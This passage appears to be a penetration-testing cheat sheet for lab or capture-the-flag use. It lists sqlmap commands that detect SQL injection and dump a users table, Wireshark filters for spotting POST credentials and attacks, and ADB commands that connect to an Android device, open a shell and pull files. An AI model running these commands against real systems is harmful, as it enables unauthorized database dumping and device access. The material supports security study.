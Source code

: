 ### SQLMap Automation
```bash
# Basic detection
sqlmap -u "http://192.168.0.X/vuln.php?id=1" --batch

# Database enumeration
sqlmap -u "http://192.168.0.X/vuln.php?id=1" --dbs

# Table dumping
sqlmap -u "http://192.168.0.X/vuln.php?id=1" -D database_name -T users --dump

# DSSS optimized attack
sqlmap -u "http://192.168.0.X/vuln.php?id=1" --threads=10 --batch --dump --optimize
```

## 📊 PCAP Analysis

### Wireshark Filters
```bash
# HTTP POST requests (credentials)
http.request.method == "POST"

# SYN flood detection
tcp.flags.syn == 1 and tcp.flags.ack == 0

# ICMP analysis
icmp

# UDP data
udp

# ARP attacks
arp
```

### Statistics Commands
```bash
# Conversations (IP analysis)
Statistics → Conversations → IPv4

# Protocol hierarchy
Statistics → Protocol Hierarchy
```

## 📱 Mobile & ADB

### Android Device Access
```bash
# Connect to device
adb connect 192.168.0.X:5555

# Shell access
adb shell

# File exploration
find /sdcard -name "*.txt"
ls -la /sdcard/Download/

# Pull files to local machine
adb pull /sdcard/secret.txt ./
```
